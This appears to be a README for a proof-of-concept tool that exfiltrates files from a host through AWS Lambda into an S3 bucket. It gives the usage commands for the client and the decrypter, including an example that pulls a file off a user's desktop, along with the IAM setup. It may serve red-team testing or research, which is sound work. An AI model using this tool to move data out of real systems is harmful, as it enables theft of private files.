 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works (The gif is somewhat outdated but the idea is the same)

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py -n "Hostname" -i "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py -n "ID4A0E" -i "test"`

Follow the prompts for decrypter setup, this will set AWS keys as well as region and bucket name.  
Decrypter setup is based on `decrypterConfig.json` (Which will be created after the first time decrypter is ran).  
If AWS account / bucket needs to be changed, please modify the above mentioned json file.

## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts for client setup

###### Decrypter will be set up the first time it's ran, follow the prompts

#### Partitions
Please take in account the size of the file to be exfiltrated when defining the partition size.

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
